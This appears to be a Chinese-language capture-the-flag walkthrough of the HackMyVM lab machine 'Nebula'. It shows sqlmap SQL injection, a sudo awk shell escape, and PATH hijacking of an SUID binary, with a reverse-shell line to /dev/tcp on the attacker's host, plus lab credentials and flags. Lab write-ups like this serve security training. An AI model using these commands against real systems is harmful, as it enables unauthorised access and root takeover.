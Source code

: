 # Nebula

2025.03.24 https://hackmyvm.eu/machines/machine.php?vm=Nebula

[video]()

## Ip

192.168.5.39

## Scan

```
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

有登陆窗口，但是没有 sql 注入，在目录爆破中发现http://192.168.5.40/joinus/application_form.pdf 里面有一段标记了绿色的登陆凭据：

```
user=admin&password=d46df8e6a5627debf930f7b5c8f3b083
```

http://192.168.5.40/login/index.php 使用此凭据登陆成功。

搜索页面存在 sql 注入: http://192.168.5.40/login/search_central.php 直接 sqlmap：

```
nebuladb库中存在3个表: central 、centrals 、 users
sqlmap -r req.txt --batch -D nebuladb -T users --dump
```

发现 pmccentral:999999999 可登陆 ssh。

sudo -l 显示 awk，可切换到另外一个用户 laboratoryadmin:

```
sudo -u laboratoryadmin awk 'BEGIN {system("/bin/bash")}'
```

先拿到 user flag:

```
laboratoryadmin@laboratoryuser:~$ cat user.txt
flag{$udOeR$_Pr!V11E9E_I5_7En53}
```

发现 suid 程序：

```
laboratoryadmin@laboratoryuser:~/autoScripts$ ls -al
-rwxrwxr-x 1 laboratoryadmin laboratoryadmin     8 Dec 18  2023 head
-rwsr-xr-x 1 root            root            16792 Dec 17  2023 PMCEmployees
```

strings 查看字符串发现 PMCEmployees 内部调用了: head /home/pmccentral/documents/employees.txt , 直接修改 head 脚本的内容,并进行 PATH 变量劫持：

```
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1"' > head
export PATH=/home/laboratoryadmin/autoScripts:$PATH
laboratoryadmin@laboratoryuser:~/autoScripts$ ./PMCEmployees
```

拿到 root flag:

```
root@laboratoryuser:/root# cat root.txt
flag{r00t_t3ns0}
```
